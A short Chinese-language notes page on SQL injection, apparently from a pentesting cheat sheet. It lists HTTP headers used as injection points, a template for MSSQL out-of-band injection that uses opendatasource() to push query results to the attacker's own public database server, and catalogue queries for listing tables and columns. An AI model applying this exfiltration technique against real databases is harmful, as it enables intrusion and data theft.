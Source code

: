 # http header sql注入
## 常用注入header
- User-Agent
- Referer
- Host
- X-Forwarded
- X-Forwarded-For
- Forwarded
- Forwarded-For
- Cookie

# mssql反弹注入

> 使用mssql独有的函数opendatasource()将查询结果插入到自己的公网数据库；

## mssql opendatasource()函数用法

```sql
opendatasource('sqloledb','server=公网地址,端口;uid=用户名;pwd=密码;database=库名')
```
该函数作用是打开远程数据源连接

## mssql获取表名

```
select id,name from sysobjects where xtype='U' -- xtype U是用户表 S是系统表
```
### sysobjects.xtype值的含义
> C = CHECK 约束  
D = 默认值或 DEFAULT 约束  
F = FOREIGN KEY 约束  
L = 日志  
FN = 标量函数  
IF = 内嵌表函数  
P = 存储过程  
PK = PRIMARY KEY 约束（类型是 K）  
RF = 复制筛选存储过程  
S = 系统表  
TF = 表函数  
TR = 触发器  
U = 用户表  
UQ = UNIQUE 约束（类型是 K）  
V = 视图  
X = 扩展存储过程

## mssql获取字段名
```
select * from syscolumns where id=581577110 -- (表的id)
```
